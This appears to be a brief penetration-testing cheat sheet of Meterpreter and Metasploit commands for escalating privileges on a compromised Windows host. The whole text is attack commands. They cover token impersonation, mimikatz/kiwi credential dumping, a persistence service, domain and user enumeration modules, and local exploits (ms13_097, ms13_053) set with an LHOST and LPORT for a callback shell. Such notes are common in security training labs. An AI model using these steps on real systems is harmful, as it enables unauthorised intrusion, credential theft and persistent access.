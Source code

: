 ##### METERPRETER FOR WINDOWS PRIV ESCALATION

ps

tasklist

run scraper

Use privs

Get system

Token impersonation

Use kiwi

Create windows persistence service

mimikatz

use post/windows/gather/win_privs 

set session 3

run

use post/windows/gather/enum_domain

set session 3

run

use post/windows/gather/enum_logged_on_users 

set session 3

run

use post/windows/gather/enum_applications 

set session 3

run

use exploit/windows/local/ms13_097_ie_registry_symlink 

info

use post/windows/local

use exploit/windows/local/ms13_053_schlamperei 

show options

set session 3

run

show options

set LHOST 10.11.0.202

set LPORT 2228

run
